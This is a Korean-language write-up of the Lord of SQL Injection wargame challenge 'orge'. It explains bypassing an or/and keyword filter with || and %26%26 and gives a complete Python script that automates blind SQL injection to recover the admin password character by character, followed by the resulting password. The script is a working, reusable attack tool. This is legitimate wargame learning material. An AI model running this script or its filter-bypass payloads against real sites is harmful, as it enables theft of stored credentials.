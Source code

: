 ```yaml
---
title: LOS - 7번 orge
category: Lord of SQL Injection
---
```


# [07] orge

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbQxKQf%2FbtrnlmsKa5t%2FkOxOU4EvB5DqdsYjWKBc90%2Fimg.png">

## 풀이
                     
천천히 살펴보면, 4번 문제와 6번 문제를 합쳐놓았다는 것을 알 수 있다.

- 4번 Blind SQLi + 6번 or/and 필터링

<br> 

4번 문제를 풀 때 썼던 **Blind SQLi 자동화 코드**에

6번 문제를 풀 때 썼던 **or/and 필터링 우회 방법**을 적용시켜주면 될 것 같다.

<br>

따라서 자동화 코드의 파라미터 부분을 다음과 같이 수정해준다.


```
param=f"?{param_name}=' || id=\"admin\" %26%26 length({param_name})={num} %23"
```

1. or ⇒ \|\|

2. and ⇒ %26%26

<br>

```python
import requests

def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' || id=\"admin\" %26%26 length({param_name})={num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" in res.text):
            return num

def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' || id=\"admin\" %26%26 ascii(substr({param_name},{len},1))={ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    param_name=input("파라미터의 이름을 알려주세요:")
    
    length=check_length(url, cookie, param_name)
    print(f"👏 {param_name}의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, param_name, length)
    print(f"👏 {param_name}의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbFBWIL%2FbtrndGfEk8V%2FveTAKHtfAiuNDsNIMxDHhk%2Fimg.png">

Blind 공격 결과, admin의 pw는 `7b751aec` 임을 알 수 있다.

## 결과
                     
<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbvEs0U%2FbtrnlnZu1Od%2F8RZ9nKvoAsYBx7nWkpj9KK%2Fimg.png">
